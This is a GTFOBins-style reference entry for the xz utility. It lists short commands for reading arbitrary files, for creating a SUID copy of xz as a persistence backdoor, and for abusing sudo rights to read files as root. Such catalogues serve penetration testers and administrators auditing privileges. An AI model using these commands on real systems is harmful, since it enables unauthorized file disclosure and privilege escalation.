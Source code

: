# GTFOBin: xz

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
xz -c "$LFILE" | xz -d
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which xz) .

LFILE=file_to_read
./xz -c "$LFILE" | xz -d
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo xz -c "$LFILE" | xz -d
```